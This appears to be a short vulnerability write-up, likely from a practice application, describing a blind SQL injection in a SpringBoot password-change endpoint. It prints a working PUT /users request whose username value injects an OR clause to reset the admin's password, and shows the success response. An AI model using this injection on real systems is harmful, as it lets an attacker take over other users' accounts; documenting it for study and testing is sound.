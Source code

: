# Blind SQL Injection
A variant of SQL injection, a database query manipulation attack against structured query language (SQL), that does not have visual output during a successful attack.

## Exploitation
**Location:** _PUT /users_

Blind SQL Injection present within SpringBoot code for changing password.  Can be escaped to, for example, change the passwords of other users in addition to itself.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "username":"ding' OR username = 'admin",
        "newPassword":"password10!"
    }

This example assumes the attacker's name is _ding_ and adds _' OR username = 'admin"_ after specifying the username to change the password of the admin account to _password10!_ alongside the attacker's account.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

